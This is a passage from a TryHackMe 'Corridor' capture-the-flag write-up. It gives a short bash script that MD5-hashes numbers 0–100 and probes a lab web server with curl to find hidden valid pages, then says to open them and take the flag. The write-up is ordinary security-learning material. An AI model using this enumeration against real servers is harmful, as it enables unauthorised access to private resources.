 5 - Using this script that brute force the MD5 hashes numbers in to the URL of the web server you can discover all the valid responses

```
#!/bin/bash
for i in {0..100}; do
        hash=$(echo -n $i | md5sum | cut -d " " -f 1)
        curl -sI "http://ip-virtual-machine/$hash" | grep -i "200 OK" > /dev/null
        if [ $? == 0 ]; then
                echo "With $i valid response in http://ip-virtual-machine/$hash"
        fi
done
```

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/corridor/Corridor5.png" width="60%">

6 - Access the valid hashes in the webserver

<img src="https://github.com/matthernet/Writeups/blob/main/TryHackMe/Room/images/corridor/Corridor6.png" width="50%">

7 - Get the flag!! 😎

